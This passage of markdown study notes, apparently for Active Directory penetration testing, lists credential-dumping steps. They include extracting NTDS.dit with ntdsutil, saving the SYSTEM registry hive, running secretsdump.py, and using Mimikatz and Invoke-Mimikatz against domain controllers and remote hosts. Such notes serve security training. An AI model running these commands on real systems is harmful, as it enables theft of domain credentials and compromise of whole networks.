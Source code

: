         mount <UUID>
        ```
    - copy NTDS.dit (located in Windows\NTDS\NTDS.dit by default)
    - ntdsutil
        ```bat
        unmount <UUID>
        delete <UUID>
        quit
        quit
        ```
        ```bat
        reg.exe save HKLM\SYSTEM <path_where_you_want_to_save_it>
        ```
        ```bat
        secretsdump.py -system <path_to_system_hive> -ntds <path_to_ntds.dit> LOCAL
        ```
- Dumping Credentials on DC - Mimikatz
  - Take memory dump of LSASS process using task manager and use Mimikatz offline
  - Run Mimikatz on DC
  - Invoke-Mimikatz on DC via PS remoting
- Dumping Credentials on Multiple Machines - Mimikatz
  - `Invoke-Mimikatz -DumpCreds -ComputerName @("instance1", "instance2")`
    - Uses PowerShell remoting 
    - Hence need creds / administrative access to remote computers
    - If remoting not enabled:
      - If WIM enabled
        - WIN32 Proess - Class Create Method (TODO:)
        - WIN32 Service - Execute Method (TODO:)

### Pass the Hash

![image-20190603075202692](_assets/image-20190603075202692.png)

> Ref: [https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don't-Get-It.pdf](https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don't-Get-It.pdf)

